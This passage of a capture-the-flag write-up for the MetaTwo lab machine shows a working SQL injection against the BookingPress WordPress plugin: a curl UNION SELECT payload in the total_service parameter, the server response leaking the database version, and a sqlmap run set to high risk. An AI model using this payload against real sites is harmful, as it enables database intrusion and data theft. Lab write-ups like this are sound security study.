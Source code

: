 {% highlight console  %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sat, 22 Apr 2023 17:54:19 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]  

{% endhighlight %}


From the poc we see that the post variable `total_service` is vulnerable.  Let's have `sqlmap` do the leg work of enumerating the Maria database for us.  

We pass the poc through our proxy.  

{% highlight console  %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$  curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' -x localhost:8080

{% endhighlight %}

We save the request to a file called `requests.txt`

<div class="text-center">
    <div class="img-fluid">
        {% include figure.html path="assets/img/metatwo/m5.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

{% highlight console  %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$  sqlmap -r requests.txt --level 4 --risk 3 --batch -p total_service                                                                                                                                                                    1 ⨯
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
